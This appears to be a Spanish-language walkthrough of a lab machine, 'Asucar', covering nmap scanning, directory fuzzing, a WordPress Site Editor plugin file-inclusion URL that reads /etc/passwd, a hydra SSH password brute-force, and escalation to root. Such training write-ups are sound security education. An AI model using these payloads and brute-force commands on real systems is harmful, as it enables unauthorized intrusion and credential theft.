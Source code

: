 # Máquina Asucar

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

![alt text](image-2.png)

Utilicé wpscan para tratar de buscar usuarios, pero no encontré nada.

### Entrando en la web

Al entrar en la web me di cuenta de que hay un dominio asucar.dl, entonces lo agregué al /etc/hosts

### Intrusión

Lo que hice fue hacer un curl, para ver si tiene algún plugin vulnerable.

curl -s -X GET "http://172.17.0.2/" | grep plugins 

![alt text](image-3.png)

entonces como llama a site editor, lo busqué por searchsploit

![alt text](image-4.png)

me dice que el plugin trata de un LFI.

tengo que entrar a esta ruta para ver el /etc/passwd

http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![alt text](image-5.png)

Ahora como ya tengo un usuario y también tengo el servicio ssh corriendo, entonces lo que hice fue un ataque de fuerza bruta:

hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I

![alt text](image-6.png)

Inicié sesión mediante ssh con las credenciales:

ssh curiosito@172.17.0.2

![alt text](image-7.png)

### Escalar privilegios

hice sudo -l

![alt text](image-8.png)

ejecuté los siguientes comandos:

![alt text](image-9.png)

luego descargué el id_rsa de curiosito y me conecté como root por ssh.

![alt text](image-10.png)